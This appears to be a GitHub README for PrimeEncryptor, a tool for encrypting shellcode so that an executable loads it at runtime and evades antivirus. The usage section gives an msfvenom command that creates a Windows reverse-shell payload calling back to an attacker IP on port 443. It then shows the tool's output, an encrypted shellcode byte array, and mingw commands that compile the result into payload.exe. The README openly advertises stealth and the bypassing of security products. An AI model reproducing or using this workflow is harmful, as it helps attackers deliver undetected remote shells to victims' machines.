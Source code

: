 # ♎ **PrimeEncryptor**

**PrimeEncryptor**  is a flexible Dynamic Shellcode Encryptor designed to generate encrypted shellcode using multiple encryption techniques. This tool creates encrypted .bin files, which can be embedded in the resource section of an executable. During runtime, the executable dynamically decrypts and loads the shellcode, helping bypass antivirus and security solutions by evading detection. The encrypted payloads are decrypted at runtime via a loader.

Additionally, PrimeEncryptor provides sample C++ code snippets that give you the necessary functions to load the encrypted shellcode directly from the resource segment of the executable. These code snippets simplify the process of embedding and dynamically loading the shellcode, ensuring efficient execution while maintaining stealth.You can use these functions in your own loaders.

---

<p align="center">
  <img src="">
</p>

# ✔️ **Installation**

Clone the repository and set up the environment.

### **Installation**
```bash
git clone https://github.com/dagowda/PrimeEncryptor.git
cd PrimeEncryptor
sudo apt-get update
sudo apt-get install -y mingw-w64
pip3 install pycryptodome
```

---

# ⚙️ **Usage**

Make sure the necessary dependencies are istalled:

```bash
➜  PrimeEncryptor msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.222.129 LPORT=443 -f raw >payload.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes

➜  PrimeEncryptor python3 PrimeEncyptor.py payload.bin 

  
                                                                                                                         
██████╗ ██████╗ ██╗███╗   ███╗███████╗    ███████╗███╗   ██╗ ██████╗██████╗ ██╗   ██╗██████╗ ████████╗ ██████╗ ██████╗   
██╔══██╗██╔══██╗██║████╗ ████║██╔════╝    ██╔════╝████╗  ██║██╔════╝██╔══██╗╚██╗ ██╔╝██╔══██╗╚══██╔══╝██╔═══██╗██╔══██╗  
██████╔╝██████╔╝██║██╔████╔██║█████╗      █████╗  ██╔██╗ ██║██║     ██████╔╝ ╚████╔╝ ██████╔╝   ██║   ██║   ██║██████╔╝  
██╔═══╝ ██╔══██╗██║██║╚██╔╝██║██╔══╝      ██╔══╝  ██║╚██╗██║██║     ██╔══██╗  ╚██╔╝  ██╔═══╝    ██║   ██║   ██║██╔══██╗  
██║     ██║  ██║██║██║ ╚═╝ ██║███████╗    ███████╗██║ ╚████║╚██████╗██║  ██║   ██║   ██║        ██║   ╚██████╔╝██║  ██║  
╚═╝     ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚══════╝    ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚═╝  ╚═╝   ╚═╝   ╚═╝        ╚═╝    ╚═════╝ ╚═╝  ╚═╝  
                                                                                                                         
................................................                                                                         
                      Encryptor function creator                                                                         
---------------------------------------------------------                                                                
Created by Dhanush Gowda(dagowda)                                                                                        
---------------------------------------------------------                                                                
................................................                                                                                                                                                                                                  
                                                                                                                         
Please select the encryption type:                                                                                       
1.)AES encryption                                                                                                        
2.)rot20                                                                                                                 
3.)rc4 encryption                                                                                                        
>2                                                                                                                       
unsigned char ciphertext[] = {0x10,0x5c,0x97,0xf8,0x04,0xfc,0xd4,0x14,0x14,0x14,0x55,0x65,0x55,0x64,0x66,0x65,0x6a,0x5c,0x45,0xe6,0x79,0x5c,0x9f,0x66,0x74,0x5c,0x9f,0x66,0x2c,0x5c,0x9f,0x66,0x34,0x5c,0x9f,0x86,0x64,0x5c,0x23,0xcb,0x5e,0x5e,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x50,0x75,0x90,0x16,0x40,0x34,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0xf6,0x01,0x66,0x55,0x65,0x5c,0x9f,0x66,0x34,0x9f,0x56,0x50,0x5c,0x15,0xe4,0x9f,0x94,0x9c,0x14,0x14,0x14,0x5c,0x99,0xd4,0x88,0x7b,0x5c,0x15,0xe4,0x64,0x9f,0x5c,0x2c,0x58,0x9f,0x54,0x34,0x5d,0x15,0xe4,0xf7,0x6a,0x5c,0x13,0xdd,0x55,0x9f,0x48,0x9c,0x5c,0x15,0xea,0x61,0x45,0xdd,0x5c,0x45,0xd4,0xc0,0x55,0xd5,0xdd,0x21,0x55,0x15,0xd5,0x4c,0xf4,0x89,0x05,0x60,0x17,0x60,0x38,0x1c,0x59,0x4d,0xe5,0x89,0xec,0x6c,0x58,0x9f,0x54,0x38,0x5d,0x15,0xe4,0x7a,0x55,0x9f,0x20,0x5c,0x58,0x9f,0x54,0x30,0x5d,0x15,0xe4,0x55,0x9f,0x18,0x9c,0x5c,0x15,0xe4,0x55,0x6c,0x55,0x6c,0x72,0x6d,0x6e,0x55,0x6c,0x55,0x6d,0x55,0x6e,0x5c,0x97,0x00,0x34,0x55,0x66,0x13,0xf4,0x6c,0x55,0x6d,0x6e,0x5c,0x9f,0x26,0xfd,0x6b,0x13,0x13,0x13,0x71,0x5d,0xd2,0x8b,0x87,0x46,0x73,0x47,0x46,0x14,0x14,0x55,0x6a,0x5d,0x9d,0xfa,0x5c,0x95,0x00,0xb4,0x15,0x14,0x14,0x5d,0x9d,0xf9,0x5d,0xd0,0x16,0x14,0x15,0xcf,0xd4,0xbc,0xf2,0x95,0x55,0x68,0x5d,0x9d,0xf8,0x60,0x9d,0x05,0x55,0xce,0x60,0x8b,0x3a,0x1b,0x13,0xe9,0x60,0x9d,0xfe,0x7c,0x15,0x15,0x14,0x14,0x6d,0x55,0xce,0x3d,0x94,0x7f,0x14,0x13,0xe9,0x64,0x64,0x61,0x45,0xdd,0x61,0x45,0xd4,0x5c,0x13,0xd4,0x5c,0x9d,0xd6,0x5c,0x13,0xd4,0x5c,0x9d,0xd5,0x55,0xce,0xfe,0x23,0xf3,0xf4,0x13,0xe9,0x5c,0x9d,0xdb,0x7e,0x24,0x55,0x6c,0x60,0x9d,0xf6,0x5c,0x9d,0x0d,0x55,0xce,0xad,0xb9,0x88,0x75,0x13,0xe9,0x5c,0x95,0xd8,0x54,0x16,0x14,0x14,0x5d,0xcc,0x77,0x81,0x78,0x14,0x14,0x14,0x14,0x14,0x55,0x64,0x55,0x64,0x5c,0x9d,0xf6,0x6b,0x6b,0x6b,0x61,0x45,0xd4,0x7e,0x21,0x6d,0x55,0x64,0xf6,0x10,0x7a,0xdb,0x58,0x38,0x68,0x15,0x15,0x5c,0xa1,0x58,0x38,0x2c,0xda,0x14,0x7c,0x5c,0x9d,0xfa,0x6a,0x64,0x55,0x64,0x55,0x64,0x55,0x64,0x5d,0x13,0xd4,0x55,0x64,0x5d,0x13,0xdc,0x61,0x9d,0xd5,0x60,0x9d,0xd5,0x55,0xce,0x8d,0xe0,0x53,0x9a,0x13,0xe9,0x5c,0x45,0xe6,0x5c,0x13,0xde,0x9f,0x22,0x55,0xce,0x1c,0x9b,0x31,0x74,0x13,0xe9,0xcf,0x04,0xc9,0xb6,0x6a,0x55,0xce,0xba,0xa9,0xd1,0xb1,0x13,0xe9,0x5c,0x97,0xd8,0x3c,0x50,0x1a,0x90,0x1e,0x94,0x0f,0xf4,0x89,0x19,0xcf,0x5b,0x27,0x86,0x83,0x7e,0x14,0x6d,0x55,0x9d,0xee,0x13,0xe9};                                                                                         
resources.rc and rot20.bin has been created                                                                              
TO COMPILE:                                                                                                              
"x86_64-w64-mingw32-windres resources.rc -O coff -o resources.res"                                                       
"x86_64-w64-mingw32-g++ --static -o payload.exe rot20.cpp resources.res -lws2_32 -lshlwapi -fpermissive"
```

---

## 📄 **Notes**
- Ensure you have **Python 3.8+** installed.
- Run the commands in a terminal with the required permissions.


![image_alt](https://github.com/dagowda/PrimeEncryptor/blob/ca37a805b9147f16fc9f8e1c92f4c76e234a0d22/images/screenshot2.png) 
